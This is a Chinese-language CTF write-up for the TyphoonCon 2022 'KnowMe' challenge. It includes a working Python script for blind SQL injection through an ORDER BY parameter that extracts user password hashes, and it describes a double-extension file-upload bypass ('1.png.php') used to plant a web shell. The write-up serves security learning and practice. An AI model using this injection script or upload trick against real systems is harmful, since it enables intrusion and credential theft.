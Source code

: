 # [TyphoonCon CTF 2022] WP




# KnowMe

首先是扫了个目录，发现了robots.txt

```
/items.php
/var/www/flag
```

这里的items.php是一个查询接口

![image-20220626144933473](https://tuchuang.huamang.xyz/img/image-20220626144933473.png)

经测试是order by的盲注，这里我写了个脚本，这里只展示到最后查询密码

```python
import requests
import string

strings = "abcdef1234567890"
url = "https://typhooncon-knowme.chals.io/items.php?sort=rand(substr((select/**/group_concat(password)/**/from/**/users),{},1)='{}')"
flag = ''

for i in range(80):
    for s in strings:
        fuckurl = url.format(i,s)
        res = requests.get(url=fuckurl).text
        if '"id":2' in res:
            flag+=s
            print(flag)
        else :
            print("-",end="")
```

注出来，admin密码md5：d41d8cd98f00b204e9800998ecf8427e

解出来是空

<img src="https://tuchuang.huamang.xyz/img/image-20220626145323034.png" alt="image-20220626145323034" style="zoom:150%;" />

只需要bp进行前端限制的绕过即可，然后就会跳转到profile.php

![image-20220626145457790](https://tuchuang.huamang.xyz/img/image-20220626145457790.png)

进行文件上传，这里只允许上传图片，且是白名单，这里直接上传1.png.php即可绕过，估计这里的逻辑判断只取了第一个点后面的后缀

直接传shell后拿flag

![image-20220626145905890](https://tuchuang.huamang.xyz/img/image-20220626145905890.png)
